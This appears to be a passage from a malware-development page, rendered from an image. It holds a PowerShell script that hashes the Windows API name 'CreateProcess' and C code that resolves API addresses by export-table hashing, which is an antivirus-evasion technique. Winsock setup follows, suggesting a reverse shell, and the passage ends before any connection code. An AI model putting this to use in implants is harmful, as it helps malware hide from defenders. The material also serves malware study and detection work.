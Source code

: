 ``` powershell
$FunctionsToHash = @("CreateProcess")
$FunctionsToHash | ForEach-Object {
  $functionName = $_
  $hashValue = 0x35
  [int]$index = 0
  $functionName.ToCharArray() | ForEach-Object {
    $char = $_
    $charValue = [int64]$char
    $charValue = '0x{0:x}' -f $charValue
    $hashValue += $hashValue * 0xab10f29f +
$charValue          -band 0xffffff
    $hashHexValue = '0x{0:x}' -f $hashValue
    $index++
    Write-Host "Iteration $index : $char : $charValue : $hashHexValue"
  }
  Write-Host "$functionName`t $('0x00{0:x}' -f $hashValue)"
}
```

#### Main C code

```c
#include <winsock2.h>
#include <windows.h>
#include <stdio.h>
#pragma comment(lib, "w2_32")

typedef int (WINAPI *CreateProcess_t)(
  LPCSTR, LPSTR,
  LPSECURITY_ATTRIBUTES,
  LPSECURITY_ATTRIBUTES,
  BOOL, DWORD, LPVOID, LPCSTR,
  LPSTARTUPINFOA, LPPROCESS_INFORMATION
);

DWORD calcHash(char *string) {
  size_t stringLength = strnlen_s(string, 50);
  DWORD hash = 0x35;
  for (size_t i = 0; i < stringLength; i++) {
    hash += (hash * 0xab10f29f + string[i]) & 0xffffff;
  }
  return hash;
}

static LPVOID getAPIAddr(HMODULE h, DWORD hash) {
  PIMAGE_DOS_HEADER img_dos_header = (PIMAGE_DOS_HEADER)h;
  PIMAGE_NT_HEADERS img_nt_header = (PIMAGE_NT_HEADERS)((LPBYTE)h + img_dos_header->e_lfanew);
  PIMAGE_EXPORT_DIRECTORY img_edt = (PIMAGE_EXPORT_DIRECTORY)(
    (LPBYTE)h + img_nt_header->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);
  PDWORD fAddr = (PDWORD)((LPBYTE)h + img_edt->AddressOfFunctions);
  PDWORD fNames = (PDWORD)((LPBYTE)h + img_edt->AddressOfNames);
  PWORD  fOrd = (PWORD)((LPBYTE)h + img_edt->AddressOfNameOrdinals);
  for (DWORD i = 0; i < img_edt->AddressOfFunctions; i++) {
    LPSTR pFuncName = (LPSTR)((LPBYTE)h + fNames[i]);
    if (calcHash(pFuncName) == hash) {
      return (LPVOID)((LPBYTE)h + fAddr[fOrd[i]]);
    }
  }
  return nullptr;
}

WSADATA socketData;
SOCKET mainSocket;
```